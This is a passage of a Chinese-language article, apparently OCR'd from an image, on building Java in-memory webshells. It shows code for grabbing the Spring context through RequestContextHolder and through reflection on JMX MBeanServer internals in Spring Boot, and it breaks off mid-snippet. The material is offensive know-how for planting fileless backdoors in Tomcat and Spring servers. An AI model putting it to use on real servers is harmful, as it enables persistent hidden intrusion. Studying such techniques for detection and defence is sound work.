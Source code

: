 在随后的DispatcherServlet中，对request设置了多个属性，包括spring context，所以我们可以通过RequestContextHolder获取spring context，但最好在controller、interceptor中，当然，在其他情况下也是能获取到的，参考“Filter中写内存马的误解”。

![DispatcherServlet#doService](Java应用内存马/DispatcherServlet#doService.png)

我们可以使用如下代码从RquestContextHolder获取spring context，参数scope值为0则从request取attribute，其他值从session取attribute

```java
WebApplicationContext context = (WebApplicationContext) RequestContextHolder.getRequestAttributes().getAttribute("org" +
                ".springframework.web.servlet.DispatcherServlet.CONTEXT", 0);
```



### 5.2 Spring-Boot MBean

spring-boot中，我们可以利用MBean机制获取tomcat的容器对象，从而实现tomcat下的内存马

在`com.sun.jmx.mbeanserver.JmxMBeanServer#registerMBean`打上断点

```
registerMBean:522, JmxMBeanServer (com.sun.jmx.mbeanserver)
afterPropertiesSet:129, SpringApplicationAdminMXBeanRegistrar (org.springframework.boot.admin)
invokeInitMethods:1862, AbstractAutowireCapableBeanFactory (org.springframework.beans.factory.support)
initializeBean:1799, AbstractAutowireCapableBeanFactory (org.springframework.beans.factory.support)
doCreateBean:595, AbstractAutowireCapableBeanFactory (org.springframework.beans.factory.support)
...
run:1215, SpringApplication (org.springframework.boot)
main:11, App (com.main)
```

`afterPropertiesSet`告诉了我们如何获取MBeanServer：

![SpringApplicationAdminMXBeanRegistrar](Java应用内存马/SpringApplicationAdminMXBeanRegistrar.png)

通过MBean机制获取到spring context，该方式不受代码限制：

```java
		WebApplicationContext context=null;
        MBeanServer jmxMBeanServer = ManagementFactory.getPlatformMBeanServer();
        Object mbsInterceptor = getFieldValue("com.sun.jmx.mbeanserver.JmxMBeanServer", "mbsInterceptor",
                jmxMBeanServer);
        Object repository =  getFieldValue("com.sun.jmx.interceptor.DefaultMBeanServerInterceptor", "repository",
                mbsInterceptor);
        Method query = getMethod("com.sun.jmx.mbeanserver.Repository", "query", ObjectName.class, QueryExp.class);
        ObjectName objectName = new ObjectName("*:name=SpringApplication,*");
        Set<NamedObject> namedObjects = (Set<NamedObject>) query.invoke(repository, objectName, null);
        for (NamedObject object:namedObjects) {
            MXBeanSupport dynamicMBean = (MXBeanSupport) object.getObject();
            Object resource = getFieldValue("com.sun.jmx.mbeanserver.MBeanSupport", "resource",
```